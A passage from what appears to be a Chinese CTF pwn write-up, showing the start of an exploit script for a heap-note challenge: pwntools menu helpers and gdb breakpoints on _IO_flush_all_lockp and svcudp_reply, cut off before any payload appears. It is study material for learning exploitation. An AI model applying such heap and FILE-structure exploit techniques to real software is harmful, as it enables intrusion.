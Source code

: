 ![leave_ret](./hardsandbox/leave_ret.png)

# exp
下面就是完整exp，主要是留个档，哪天要是忘了一些细节在回来翻翻
```python
def debug(io):
    gdb.attach(io,
    '''
    b add_note
    # b delete_note
    # b edit_note
    # b show_note
    b *_IO_flush_all_lockp
    b *svcudp_reply+26
    '''
    )

io = process("./pwn")

def add(index,size):
    io.sendlineafter(b'Exit',b'1')
    io.sendlineafter(b'Index: ',str(index))
    io.sendlineafter(b'Size: ',str(size))
def delete(index):
    io.sendlineafter(b'Exit',b'2')
    io.sendlineafter(b'Index: ',str(index))
def edit(index,content):
    io.sendlineafter(b'Exit',b'3')
```